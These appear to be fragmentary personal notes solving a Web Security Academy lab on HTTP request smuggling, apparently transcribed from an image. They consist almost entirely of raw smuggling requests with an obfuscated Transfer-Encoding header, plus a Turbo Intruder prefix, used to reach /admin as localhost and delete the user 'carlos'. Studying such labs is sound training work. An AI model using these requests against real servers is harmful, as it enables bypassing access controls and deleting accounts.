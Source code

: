 POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 12
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
70
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0
and added the line:
/delete?username=carlos
to /admin
GET /admin/delete?username=carlos
--
##### It's taking too long so send it to the turb truder
                           )
    # This will prefix the victim's request. Edit it to achieve the desired effect.
    prefix = '''
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1'''
---
##### SOLVED:
these _requests_ deleted carlos:
---
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
---
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
---